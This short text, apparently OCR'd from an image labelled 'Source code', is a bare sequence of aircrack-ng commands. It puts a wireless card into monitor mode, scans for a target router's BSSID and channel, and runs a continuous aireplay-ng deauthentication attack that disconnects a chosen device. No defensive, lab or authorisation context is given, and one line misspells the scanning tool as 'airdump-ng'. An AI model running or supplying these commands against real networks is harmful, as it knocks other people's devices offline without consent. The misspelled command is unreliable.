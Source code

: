 iwconfig

airmon-ng start wlan0

airdump-ng wlan0mon

airodump-ng wlan0mon --bssid [routers BSSID here]--channel [routers channel here]

aireplay-ng --deauth 0 -c [DEVICES MAC ADDRESS] -a [ROUTERS MAC ADDRESS] wlan0mon
